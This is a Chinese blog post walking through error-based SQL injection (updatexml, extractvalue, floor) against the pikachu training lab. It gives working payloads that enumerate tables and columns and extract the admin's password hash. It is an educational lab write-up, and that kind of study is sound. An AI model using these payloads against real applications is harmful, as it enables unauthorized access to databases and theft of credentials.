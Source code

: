 ```yaml
---
title: SQL注入之基于函数报错的信息获取
date: 2019-01-07 23:38:28
categories: WEB安全
tags: 靶机实验

---
```

<blockquote class="blockquote-center">人生舞台的大幕随时都可能拉开，关键是你愿意表演，还是选择躲避。</blockquote>
<div align="middle"><iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=526668900&auto=1&height=66"></iframe></iframe></div>

### 实验环境:
pikachu靶机
### 基于函数报错的信息获取
1.常用的报错函数updatexml(),extractvalue(),floor()
2.基于函数报错的信息获取(select,insert,update,delete)


### 技巧思路:
在MySQL中使用一些指定的函数来制造报错,从而从报错信息中获取设定的信息
select/insert/update/delete都可以使用报错来获取信息

### 背景条件:
后台没有屏蔽数据库报错信息,在语法发生错误时会输出在前端

### updatexml函数使用方法
updatexml():函数是MySQL对XML文档数据进行查询和修改的XPATH函数
updatexml()函数作用:改变(查找并替换)XML文档中符合条件的节点的值
语法:updatexml(xml_document,xpathstring,new_value)
第一个参数:XML文档的名称
第二个参数:XML文档的位置(路径),通过xpath定位 ,也可以是表达式,那么数据库便会将这个表达式去执行
第三个参数:new_value,string格式,替换查找到的符合条件的
注:xpath定位必须是有效的,否则会发生错误


### 基于updatexml()报错进行信息获取
基于报错信息获取数据,必须要有报错信息的返回
![image](https://wx2.sinaimg.cn/large/0078beR7ly1fyyi6tu63qj313609hmxs.jpg)

我们使用updatexml()函数构造报错,获取数据库信息
使用concat函数将两个字符串一起打印出来,concat中也可以执行表达式(函数)
0x7e:为~的16进制,其目的为避免信息不被系统去掉,将结果构造出完整的字符串
查看其数据库版本信息:
```
123' and updatexml(1,concat(0x7e,version()),0)#
```
![image](https://wx1.sinaimg.cn/large/0078beR7ly1fyyi7hkmtnj30m708q74l.jpg)
查看当前数据库信息:

```
123' and updatexml(1,concat(0x7e,database()),0)#
```
![image](https://ws2.sinaimg.cn/large/0078beR7ly1fyyi81w8e3j30ls08k74k.jpg)

查看当前数据库第一张表:
```
123' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema="pikachu" limit 0,1)),0)#
```
查出第一个表为httpinfo
![image](https://ws3.sinaimg.cn/large/0078beR7ly1fyyicr2lq7j30rz0dbaao.jpg)

依次查询得到的表为httpinfo,membr,message,users,xssblind

查看users表的字段:
```
123' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name="users" limit 0,1)),0)#
```
![image](https://ws2.sinaimg.cn/large/0078beR7ly1fyyieczx8aj30oh0bxdg7.jpg)
得到users表第一个字段为id,第二个字段为username,第三个字段为password,第四个为level

查看用户名
```
123' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
```
得到users表的用户名分别为:admin,pikachu,test
![image](https://wx1.sinaimg.cn/large/0078beR7ly1fyyifklgyej30ne0be3yu.jpg)

查看其对应的密码
```
123' and updatexml(1,concat(0x7e,(select password from users  where username='admin' limit 0,1)),0)#
```
得到admin用户的经过MD5加密的值,
![image](https://ws1.sinaimg.cn/large/0078beR7ly1fyyighb282j30o008kgm0.jpg)
解密为123456
![image](https://wx4.sinaimg.cn/large/0078beR7ly1fyyignjjvdj30mr08jt9k.jpg)


### extractvalue()函数使用方法
extractvalue()函数:从目标XML中返回包含所查询值的字符串
语法:ExtractValue(xml_document,xpath_string)
第一个参数:XML_document是string格式,为XML文档对象的名称,文中为Doc
第二个参数:XPath_string(Xpath格式的字符串)
XPath定位必须是有效的,否则会发生错误

### 基于updatexml()报错进行信息获取
获取数据库信息:
```
1' and extractvalue (0,concat(0x7e,database()))#
```
![image](https://ws4.sinaimg.cn/large/0078beR7ly1fyyioxufyjj30js0da3yx.jpg)
其后续操作与updatexml函数操作一致,我就不继续写下去啦
### floor()函数使用方法
floor():MySQL中用来取整的函数.
使用floor函数必须要满足三个条件:
其SQL语句中存在count函数,rand函数,group by 这三个值才可以使用
其payload为:
```
xxx' and (select 2 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a )#
```
关于floor报错原理分析请参考此篇文章:
http://blog.51cto.com/chichu/2051375
